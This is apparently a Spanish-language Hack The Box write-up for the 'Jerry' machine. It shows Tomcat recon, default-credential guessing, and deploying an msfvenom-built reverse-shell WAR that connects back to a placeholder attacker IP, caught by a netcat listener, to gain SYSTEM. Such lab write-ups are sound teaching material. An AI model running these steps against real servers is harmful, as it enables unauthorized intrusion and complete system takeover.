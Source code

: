 ```yaml
--- 
title: Jerry
os: Windows
dificultad: Facil
img: jerry/jerry_logo.png 
skills:
  - Web Enumeration
  - Enumerating Tomcat
  - Information Leakage
  - Abusing Tomcat WAR uploads (Privilege Escalation)
plataforma: Hackthebox 
description: Jerry es una máquina Windows de dificultad fácil que muestra cómo explotar Apache Tomcat, lo que conduce a un revert shell como el usuario NT Authority\SYSTEM, comprometiendo así por completo el objetivo.
--- 
```


### Descripción

Jerry es una máquina Windows catalogada con un nivel de dificultad fácil en la plataforma Hack The Box. Su principal enfoque es demostrar la explotación de Apache Tomcat, un servidor de aplicaciones ampliamente utilizado en entornos empresariales.

El reto comienza con un reconocimiento inicial que permite identificar el servicio Tomcat en ejecución y acceder a su panel de administración. A partir de ahí, se explora la posibilidad de autenticarse o abusar de configuraciones por defecto para desplegar un archivo malicioso (WAR). Este procedimiento conduce a la obtención de un reverse shell dentro del sistema.

Una vez establecido el acceso, se observa que el proceso comprometido se está ejecutando con privilegios elevados, específicamente como NT Authority\SYSTEM, la cuenta con mayor nivel de permisos en sistemas Windows. Esto implica un control total del objetivo

### Objetivos

#### Objetivo general

Comprender y aplicar técnicas de explotación en un entorno Windows vulnerable, utilizando debilidades en la configuración de Apache Tomcat, con el fin de obtener acceso privilegiado y comprometer completamente el sistema.

#### Objetivos Especificos

- Realizar un proceso de reconocimiento para identificar servicios expuestos y tecnologías en uso.
- Detectar la presencia del servidor Apache Tomcat y analizar posibles credenciales o configuraciones por defecto.
- Explorar la carga de archivos maliciosos (WAR) como vector de ataque para obtener un reverse shell.
- Validar el nivel de privilegios obtenidos y comprobar la ejecución bajo la cuenta NT Authority\SYSTEM. 


### Analisis de Vulnerabilidades

#### Reconocimiento Inicial

Se comenzó realizando un análisis inicial sobre el sistema, cuyo objetivo principal fue comprobar la disponibilidad y accesibilidad del equipo o servicio objetivo desde el segmento de red en el que se estaba operando. Esta verificación resultó fundamental para asegurar que la comunicación entre el host atacante y el sistema de destino fuera posible antes de iniciar fases más avanzadas de la evaluación. Para llevar a cabo esta tarea de reconocimiento preliminar, se emplearon herramientas de terminal ampliamente utilizadas en auditorı́as de seguridad:

**Ping**, para enviar solicitudes ICMP al host y confirmar su capacidad de respuesta, además de obtener información básica como ser el tipo de sistema operativo ya sea Windows o Linux mediante el **TTL**.

![Ejecución del comando ping](/jerry/ping.png)

**Nmap**, para efectuar un escaneo de puertos y servicios disponibles, identificando posibles puntos de entrada o servicios expuestos que pudieran ser analizados en etapas posteriores.

![Ejecución del comando ping](/jerry/nmap.png)

Este proceso inicial permitió obtener una visión general del estado de la red y del sistema objetivo, sirviendo como base para definir la estrategia y priorizar las acciones en las siguientes fases de la evaluación.

### Analisis de Vulnerabilidades

#### Reconocimiento Inicial

Seguidamente, una vez identificados los servicios activos en el sistema objetivo, se detecta la presencia del puerto 8080/TCP abierto. Dicho puerto corresponde a un servicio web gestionado por Apache Tomcat, un contenedor de servlets ampliamente utilizado en entornos corporativos para desplegar aplicaciones Java.

#### Puerto 8080 (Servicio Web)

Al ejecutar el comando **whatweb** desde la terminal, se obtiene información detallada acerca de las tecnologı́as y frameworks que utiliza el servicio web en el puerto correspondiente. El resultado de este análisis revela que el servicio está siendo ejecutando **Apache Tomcat** en su versión **7.0.88**

Apache Tomcat es un servidor de aplicaciones web de código abierto desarrollado por la Apache Software Foundation (ASF).
Su principal función es ejecutar aplicaciones web creadas en Java, ya que implementa de manera nativa las especificaciones de:

- Java Servlet
- JavaServer Pages (JSP)
- WebSocket
- Java Expression Language (EL)

En otras palabras, Tomcat actúa como un contenedor de servlets, permitiendo que las aplicaciones web escritas en Java puedan ejecutarse en un servidor.

Al acceder al servicio web vemos la pagina por defecto de Apache Tomcat:

[![Apache Tomcat](/jerry/tomcat01.png)](/jerry/tomcat01.png)

Al realizar una búsqueda de directorios utilizando la herramienta **Gobuster**, se logró identificar la existencia del directorio **/manager/** dentro del servicio web expuesto en el puerto 8080. Este hallazgo resulta especialmente relevante, ya que dicho directorio corresponde al **Tomcat Web Application Manager**, una interfaz de administración incluida en Apache Tomcat.

[![busqueda gobuster](/jerry/gobuster.png)](/jerry/gobuster.png)

Al navegar a la aplicación Manager, se muestra un inicio de sesión:

[![manager tomcat](/jerry/tomcatmanager.png)](/jerry/tomcatmaneger.png)

Al no disponer de credenciales válidas para acceder al panel de Manager de Apache Tomcat, se procedio a realizar una búsqueda en Internet enfocada en credenciales por defecto comúnmente configuradas en este tipo de entornos dando como resultado las siguientes credenciales:>

- tomcat:tomcat
- admin:admin
- manager:manager

Al realizar múltiples intentos de acceso al panel **Manager** utilizando credenciales no válidas, el servidor responde con una página de error **403 Access Denied**, indicando que el usuario no tiene permisos para acceder al recurso solicitado.

Curiosamente, en este escenario particular, la página de error no solo bloquea el acceso, sino que también **filtra información sensible**, mostrando indirectamente las credenciales válidas necesarias para autenticarse correctamente. Este tipo de comportamiento constituye una **fuga de información (information Leakage)**, ya que proporciona a un atacante datos que normalmente deberían permanecer confidenciales.

[![information leakage](/jerry/tomcaterror.png)](/jerry/tomcaterror.png)

Al ingresar las **credenciales válidas** obtenidas previamente, se logra acceder al **panel de control** del aplicativo Manager de Apache Tomcat. Esta interfaz proporciona un **entorno administrativo completo**, permitiendo al usuario autorizado gestionar todas las aplicaciones web desplegadas en el servidor.

[![panel de tomcat](/jerry/tomcatpanel.png)](/jerry/tomcatpanel.png)

Seguidamente, una vez autenticados en el panel Manager de Apache Tomcat, procedimos a realizar una búsqueda de vulnerabilidades asociadas al servidor y a su versión específica. Esta fase de investigación permite identificar posibles vectores de ataque que podrían aprovecharse para comprometer el sistema de manera más profunda.

Durante el análisis, se evaluaron aspectos como configuraciones inseguras, servicios adicionales expuestos, y la posibilidad de ejecutar código de manera remota. La investigación arrojó como resultado un método de intrusión efectivo: `la subida de un archivo WAR malicioso`.

Los archivos WAR (Web Application Archive) son paquetes que contienen aplicaciones Java completas listas para desplegar en un servidor Tomcat. Si se logra subir un WAR malicioso al panel Manager, este se ejecuta bajo los privilegios del proceso de Tomcat, permitiendo al atacante ejecutar comandos en el sistema operativo, obtener un shell remoto y, dependiendo de la configuración del servidor, incluso escalar privilegios.

[![subir archivo war](/jerry/war01.png)](/jerry/war01.png)

A continuación creamos nuestro war malicioso mediante msfvenom:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.x.x LPORT=443 -f war -o shell.war
```
Corroboramos que el archivo war fue subido exitosamente:

[![comprobacion del shell](/jerry/shell.png)](/jerry/shell.png)

y nos ponemos en escucha utilizando **netcat** en el puerto especificado en el arvhivo war, al ser windows tambien utilizamos en comando **rlwrap** para tener una shell semi-interactiva:

```bash
rlwrap nc -lnvp 443
```

Al darle clip a shell en el panel de control se ejecuta el archivo war y nos da una shell inversa:

[![revert shell](/jerry/terminal01.png)](/jerry/terminal01.png)

Luego mediante el comando **whoami** comprobamos que somos el usuario **nt authority\system**:

[![comprobación de usuario](/jerry/terminal02.png)](/jerry/terminal02.png)

Por ultimo nos dirigimos al directorio `C:\Users\Administrator\Desktop\flags` y litamos el archivo `2 for the price of 1.txt` en el cual se encuentran las flags y user y root.